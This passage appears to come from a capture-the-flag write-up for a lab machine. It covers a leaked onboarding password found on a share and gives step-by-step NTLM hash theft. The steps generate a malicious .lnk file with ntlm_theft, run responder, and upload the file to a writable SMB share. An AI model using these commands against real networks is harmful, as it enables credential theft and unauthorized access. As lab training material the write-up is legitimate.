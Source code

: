 The two .pdf file are useless while the .txt:

```txt
Subject: Welcome to Reset Dear <USER>,
Welcome aboard! We are thrilled to have you join our team. As discussed during the hiring process, we are sending you the necessary login information to access your company account. 
Please keep this information confidential and do not share it with anyone.
The initial passowrd is: <REDACTED> We are confident that you will contribute significantly to our continued success. 
We look forward to working with you and wish you the very best in your new role.
Best regards,The Reset Team
```
It's an email with a password inside, we could a password spraying but without a valid userlist it will requires a lot.

### NTML Theft:

> Before returning to the SMB service, I tried tools such as: GetUserSPNs.py and GetNPUsers.py, they return some accounts with hashes but some of them cannot be cracked quickly or give back users that are currently not useful. we will see...

We can do further research on the SMB shares indeed we have:

- Write rights

- Every access the filename changed such as there is a user activity

Quick search on [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ntlm-theft) talks about NTLM theft, additional research lead to this [tool](https://github.com/Greenwolf/ntlm_theft/tree/master) to generate malicious file in order to retrieve NTLM hash so:
```bash
pip3 install xlsxwriter

git clone https://github.com/Greenwolf/ntlm_theft.git
cd ntlm_theft

python3 ntlm_theft.py -g lnk -s <your_ip> -f <name output folder>
```
> I tried some extensions before to find the right one

We start responder:
```bash
sudo responder -I <net_interface>
```
Then we upload it on the smbshare:
```bash
smbclient  \\\\10.10.250.218\\Data

cd onboarding
put test.lnk
```
After some minute on the responder output we can see

![responder](./pics/responder.png)
